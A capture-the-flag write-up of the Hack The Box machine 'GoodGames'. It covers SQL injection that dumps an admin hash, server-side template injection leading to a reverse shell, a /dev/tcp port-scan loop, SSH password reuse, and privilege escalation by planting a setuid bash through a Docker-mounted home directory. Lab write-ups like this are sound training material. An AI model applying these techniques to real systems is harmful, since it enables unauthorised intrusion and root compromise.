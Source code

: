 # GoodGames

---

## Enumeration

- nmap:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```

- Only port 80 is open hosting a web service and nmap revears the domain name goodgames.htb -> /etc/hosts
- Sqlmap got:

```
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```

- Creds: admin@goodgames.htb:superadministrator
- found subdomain: internal-administration.goodgames.htb while cruising through the website
- Flask Volt app, used admin:superadministrator and worked.
- At settings, name field is vulnerable to template injection
- got `''.__class__.__mro__[1].__subclasses__()`
- `<class 'subprocess.Popen'>` is at line 222 -> but it's 217.

---

## Lateral Movement

- Wrote python script for RCE and revshell option
- Got revshell and got user.txt!

---

## PrivEsc

- Found user augustus but not in /etc/passwd?
- Found db config:

```
DB_ENGINE=postgresql
DB_NAME=appseed-flask
DB_HOST=localhost
DB_PORT=5432
DB_USERNAME=appseed
DB_PASS=pass
```
- A directory list of user augustus home directory shows that instead of their name, the UID 1000 is displayed as the owner for the available files and folders. This hints that the user's home directory is mounted inside the docker container from the main system. Checking `mount` we see that the user directory from the host is indeed mounted with read/write flag enabled.

- docker container's IP is 172.19.0.2 and host is probably 172.19.0.1
- Enum manually open ports of host:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

- Port 22 is open which is SSH? Try to login as user augustus and same password: superadministrator
- Copied /bin/bash into augustus home directory, it's mounted anyways so i'll be able to access it in the docker container and im root there.
- went back to the docker and did:

```bash
chown root:root bash
chmod 4755
```

- Back to SSH as augustus and did `./bash -p` and now im root! go root.txt

---

